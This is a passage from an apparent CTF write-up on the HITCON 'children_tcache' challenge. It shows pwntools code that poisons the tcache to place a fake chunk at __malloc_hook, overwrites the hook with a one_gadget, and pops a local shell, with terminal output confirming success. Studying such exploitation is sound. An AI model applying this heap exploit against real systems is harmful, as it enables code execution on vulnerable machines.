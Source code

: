 
Now, to do so, we will allocate a chunk, which will return the chunk `0x0000555555757770`, then we will overwrite the `fd` pointer with the target chunk `__malloc_hook`, then we will do one more allocation such that it'll have the `tcache` head pointing to the target chunk adress:-

```py
# we can create a fake chunk i.e. target pointing to the __malloc_hook
malloc_hook = libc_base + 0x3ebc30
fake_chunk = malloc_hook
log.info('fake chunk: {}'.format(hex(fake_chunk)))

# heap_list[4] => chunk_5 (0x71)
# we used tcache_poisoning here
# chunk_5 will be served from tcache and we will put the address of
# our fake chunk in the chunk_1's fd.
new_heap(0x68, p64(fake_chunk))

# heap_list[5] => chunk_1 (0x71)
# this allocation serves chunk_1 and put fake chunk address in the tcache
new_heap(0x68, 'h' * 0x67)
```

Doing so:-

```asm
gef➤  heap bins tcache
──────────────────────────────────────────────────── Tcachebins for arena 0x7ffff7dcdc40 ────────────────────────────────────────────────────
Tcachebins[idx=5, size=0x70] count=0  ←  Chunk(addr=0x7ffff7dcdc0d, size=0x0, flags=)  ←  [Corrupted chunk at 0xfff7dc9d60000000]
```

Now, the next allocation will return the address `0x7ffff7dcdc0d`, which we can overwrite with the `one_gadget`, resulting in the `__malloc_hook` being overwritten with the `one_gadget`'s address and trigger the `__malloc_hook` by allocating a chunk, hence getting a shell:-

```py
# heap_list[6] => fake_chunk (0x7f)
# since fake_chunk is at the head of the list, this allocation returns it
# then, we overwrite __malloc_hook with one gadget
new_heap(0x68, p64(libc_base + 0x4f432))

# this allocation triggers __malloc_hook and we have shell
new_heap(1, '', True)
p.interactive()
```

Doing so:-

```asm
vagrant@ubuntu-bionic:~/sharedFolder/training/hitcon$ python3 children_tcache.py
[+] Starting local process './children_tcache': pid 3225
[*] LIBC Base: 0x7ffff79e2000
[*] fake chunk: 0x7ffff7dcdc30
[*] Switching to interactive mode
$ whoami
vagrant
$ echo "Pwned"
Pwned
$ 
[*] Interrupted
```
